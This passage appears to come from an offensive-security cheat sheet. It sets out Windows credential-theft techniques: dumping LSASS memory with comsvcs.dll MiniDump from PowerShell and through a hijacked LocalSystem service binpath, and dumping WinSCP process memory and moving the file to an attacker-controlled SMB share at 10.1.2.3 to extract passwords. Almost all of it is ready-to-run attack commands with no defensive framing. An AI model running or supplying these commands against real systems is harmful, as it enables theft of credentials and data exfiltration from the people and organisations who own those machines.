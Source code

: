 ```powershell
$type = Add-Type $definition -PassThru
$type[0]::EnablePrivilege($processHandle, "SeDebugPrivilege", $Disable)
$lsass = Get-Process -Name lsass
$sig = @'
[DllImport("comsvcs.dll", EntryPoint = "MiniDumpW", CharSet = CharSet.Unicode)]
public static extern void MiniDumpW(string ignored1, string ignored2, string pid_path_mode);
'@
$dmp = Add-Type -memberDefinition $sig -name "MiniDump" -namespace Win32Functions -passThru
$parameters = $lsass.Id.ToString() + " " + $DumpFile + " full"
$dmp::MiniDumpW(0, 0, $parameters)
```

**Using rundll32.exe**

Identify an unused service that runs as LocalSystem and reconfigure the binpath.  This example assumes the PID for lsass.exe is 432.<br />
```
sc config ImapiService binPath= "C:\windows\system32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 432 C:\Windows\temp\lsass.dmp full" start= demand
```

Start the service.  It will error but check for output in C:\Windows\temp\lsass.dmp.

Restore the configuration of the unused service.<br />
```
sc config ImapiService binPath= "C:\WINDOWS\system32\imapi.exe" start= disabled
```

## >> Dumping WinSCP passwords from memory using comsvcs.dll

Assumes attacking host 10.1.2.3 has an anonymous writable SMB share to receive the dmp file.<br />
Assumes a command prompt with administrator privileges has been acquired on the target.<br />
```
wmic process where name^="winscp.exe" get Processid | findstr /r /c:"[0-9]" > %TEMP%\winscp.pid

set /p varpid= < %TEMP%\winscp.pid

del %TEMP%\winscp.pid

set varpid=%varpid: =%

C:\windows\system32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump %varpid% %TEMP%\winscp.dmp full

timeout /t 5 && move /y %TEMP%\winscp.dmp \\10.1.2.3\smbwrite
```
Search for credentials in winscp.dmp on the attacking host.<br />
`strings winscp.dmp | grep -E "[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+" | more`

Example output:<br />
`user192.168.20.33Lam3Password!`

## >> Targeted Kerberoasting using LOLbin programs
